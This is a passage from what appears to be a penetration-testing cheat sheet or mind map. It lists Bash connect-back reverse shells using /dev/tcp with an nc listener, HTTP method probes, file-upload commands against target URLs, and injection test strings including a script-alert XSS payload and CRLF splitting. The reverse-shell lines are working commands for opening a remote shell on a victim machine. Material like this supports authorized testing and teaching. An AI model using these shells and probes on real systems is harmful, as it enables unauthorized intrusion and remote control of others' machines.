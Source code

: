                 Python
                    http://matahari.sourceforge.net/
                TCL
                    http://www.irmplc.com/download_pdf.php?src=Creating_Backdoors_in_Cisco_IOS_using_Tcl.pdf&force=yes
                Bash Connect Back Shell
                    GnuCitizen
                        Atttack Box: nc -l -p Port -vvv

                        Victim: $ exec 5<>/dev/tcp/IP_Address/Port

                        Victim: $ cat <&5 | while read line; do $line 2>&5 >&5; done
                    Neohapsis
                        Atttack Box: nc -l -p Port -vvv

                        Victim: $ exec 0</dev/tcp/IP_Address/Port # First we copy our connection over stdin

                        Victim: $ exec 1>&0 # Next we copy stdin to stdout

                        Victim: $ exec 2>&0 # And finally stdin to stderr

                        Victim: $ exec /bin/sh 0</dev/tcp/IP_Address/Port 1>&0 2>&0
            Method Testing
                nc IP_Adress Port
                    HEAD / HTTP/1.0
                    OPTIONS / HTTP/1.0
                    PROPFIND / HTTP/1.0
                    TRACE / HTTP/1.1
                    PUT http://Target_URL/FILE_NAME
                    POST http://Target_URL/FILE_NAME HTTP/1.x
            Upload Files
                curl
                    curl -u <username:password> -T file_to_upload <Target_URL>
                    curl -A "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" <Target_URL>
                put.pl
                    put.pl -h target -r /remote_file_name -f local_file_name
                webdav
                    cadaver
            View Page Source
                Hidden Values
                Developer Remarks
                Extraneous Code
                Passwords!
            Input Validation Checks
                NULL or null
                    Possible error messages returned.
                ' , " , ; , <!
                    Breaks an SQL string or query; used for SQL, XPath and XML Injection tests.
                – , = , + , "
                    Used to craft SQL Injection queries.
                ‘ , &, ! , ¦ , < , >
                    Used to find command execution vulnerabilities.
                "><script>alert(1)</script>
                    Basic Cross-Site Scripting Checks.
                %0d%0a
                    Carriage Return (%0d) Line Feed (%0a)
                        HTTP Splitting
